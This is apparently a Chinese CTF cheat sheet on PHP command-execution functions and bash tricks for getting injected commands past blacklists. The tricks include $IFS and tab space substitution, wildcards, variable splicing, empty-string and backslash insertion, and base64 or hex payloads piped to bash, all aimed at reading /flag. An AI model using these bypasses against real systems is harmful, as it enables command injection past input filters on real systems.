

# 0x01 执行系统命令主要函数

## system

有回显

## exec

参数只有单独的命令是，只返回最后一行

第二个参数是数组，会把第一个参数命令的结果放入该数组，一行结果一个数

使用print_r回显

## passthru

有回显，和system很像

## shell_exec、反引号
`这两个本质上相同（如果禁了也可以尝试一下另外一个）`
使用echo、print等回显

## popen、proc_open

popen

第一个参数是命令

第二个是模式，v/w

要先fgets/fread读取并存到变量，再print那个变量

## pcntl_exec

# 0x02 执行php代码
`exec, assert, call_user_func,eval`
# 0x03 空格绕过
1. cat</flag
2. {cat,/flag}
3. \$IFS\$9，\${IFS}，$IFS代替空格  
    IFS(Internal Field Seprator)  
    \$9和${IFS}单纯是为了和命令后面的部分做区分
4. 用tab绕过 %09

# 0x04 环境变量构造字符串
1. env查看环境变量
2. `{<环境变量>:0:1}`这样来控制输出就构造字符串，然后拼接成命令，如下：

# 0x05 php函数文件读取
`scandir 
`file_get_content
# 0x06  黑名单绕过

比如，禁止命令出现 flag。

### 1. 问号，中括号，星号

```
cat /f???
cat /fl[a-z]g
cat /f*
```

### 2. 变量拼接：

```
a=fl;b=ag;cat /$a$b;
```

也可以考虑用现有变量的，比如 `$PATH` 变量。

也可以考虑使用其他命令的执行结果，比如，如果 flag 在根目录下，则 `ls /` 命令执行结果一定有 `flag`，则可以用

```
a=$(ls /)
```

### 3. 插入空字符串绕过

在中间插入空的字符串，例如'',"",``,$9

```
cat /f$9l''a``g
```

$9也可以替换为其他空变量，$@,$*

### 4. 反斜杠绕过

可以在命令中插入反斜杠：

```
cat /f\l\ag
```

### 5. 编码绕过

- base64编码
    
    ```
    echo Y2F0IC9mbGFn | base64 -d | bash
    $(echo Y2F0IC9mbGFn | base64 -d)
    `echo Y2F0IC9mbGFn | base64 -d`
    ```
    
- hex编码

```
xxd –r –p
printf "\x74\x61..."
```